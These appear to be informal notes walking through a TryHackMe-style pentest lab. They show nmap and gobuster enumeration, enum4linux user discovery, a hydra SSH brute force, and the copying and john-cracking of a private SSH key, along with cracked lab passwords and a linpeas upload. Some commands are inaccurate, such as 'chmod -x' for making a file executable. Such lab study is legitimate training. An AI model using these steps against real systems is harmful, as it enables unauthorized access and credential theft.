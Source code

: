 Notes for cyber club demo

scan machine
nmap -sC -sV 10.10.187.195
port 80 port 22 port 139 port 445 port 8009 port 8080
samba client

gobuster dir -u http://10.10.187.195 -w /usr/share/dirb/wordlists/common.txt 
enumerate for hidden directories
found /development
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K

hints that we can crack a password
The /etc/shadow file is a crucial component of the Linux operating system, specifically for user account security. It is commonly found on Unix-like systems as well. The file stores encrypted password information for user accounts, as well as additional information related to password management.

Ports 139 and 445 are commonly associated with the Server Message Block (SMB) protocol, which is used for file and printer sharing in Windows networks. These ports are crucial for communication between devices in a Windows environment. However, they can also pose security risks if not properly configured.

If you've identified that ports 139 and 445 are open on the website you're pentesting, it suggests that the website might have Windows file sharing services running or could be using these ports for other purposes.

enum4linux IP -a 
finds usernames TAKES A WHILE
found kay and jan

put kay and jay into users.txt and use hydra to brute ssh (was open earlier
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.187.195 ssh
found password, armanda (HYDRA TAKES SO LONG)

can now ssh into jan's account
found pass.bak
need to crack by getting kay's ssh key
cd .ssh
cat id_rsa
copy to my machine to use john to crack

put id_rsa into another id_rsa file on your own machine
go to /usr/share/john
sudo ./ssh2john.py ~/tempfolder/id_rsa.hash > ~/tempfolder/hash.txt
put the hash in another file

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
beeswax is kay's password
in jan's shell
ssh -i id_rsa kay@10.10.187.195
heresareallystrongpasswordthatfollowsthepasswordpolicy$$

ANOTHER WAY
when in jan's shell we can use linpeas
scp linpeas.sh jan@10.10.187.195:/dev/shm 
puts the file in jan's shm file

on jan's shell go to the shm file and chmod -x linpeas.sh to make it executable
777 might be better than x
execute
![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/04a01441-c090-48ff-acfd-85af87edbeaa)
then do the john method


